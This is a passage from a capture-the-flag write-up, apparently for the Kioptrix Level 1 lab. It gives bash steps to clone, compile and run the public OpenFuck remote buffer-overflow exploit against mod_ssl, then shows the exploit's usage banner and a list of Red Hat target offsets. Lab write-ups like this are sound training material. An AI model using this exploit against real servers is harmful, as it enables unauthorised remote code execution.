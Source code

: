 I Googled vulnerabilities for both and found exploits for mod_ssl. It turned out to be vulnerable to remote buffer overflow. To learn more about the exploit, I checked the following pages:
- [GitHub: OpenLuck](https://github.com/heltonWernik/OpenLuck)

>A buffer overflow is a type of vulnerability that occurs when a program writes more data to a block of memory, or buffer, than it can hold. This extra data can overwrite adjacent memory, which can lead to unexpected behavior, crashes, or even allow an attacker to execute arbitrary code.

I quickly download the exploit and compile it using the following steps

```bash

#clone the repo
git clone https://github.com/heltonWernik/OpenFuck.git

#install dependency
apt-get install libssl-dev

#compile the code
cd OpenFuck
gcc OpenFuck.c -lcrypto

#run the exploit
./a.out
```

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-1/OpenFuck]
└─# ./a.out                             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./a.out target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
		.
		.
		.
        0x44 - RedHat Linux ?.? GENERIC (apache-1.3.12-1)
        0x45 - RedHat Linux TEST1 (apache-1.3.12-1)
        0x46 - RedHat Linux TEST2 (apache-1.3.12-1)
        0x47 - RedHat Linux GENERIC (marumbi) (apache-1.2.6-5)
        0x48 - RedHat Linux 4.2 (apache-1.1.3-3)
        0x49 - RedHat Linux 5.0 (apache-1.2.4-4)
        0x4a - RedHat Linux 5.1-Update (apache-1.2.6)
        0x4b - RedHat Linux 5.1 (apache-1.2.6-4)
        0x4c - RedHat Linux 5.2 (apache-1.3.3-1)
        0x4d - RedHat Linux 5.2-Update (apache-1.3.14-2.5.x)
        0x4e - RedHat Linux 6.0 (apache-1.3.6-7)
        0x4f - RedHat Linux 6.0 (apache-1.3.6-7)
        0x50 - RedHat Linux 6.0-Update (apache-1.3.14-2.6.2)
```
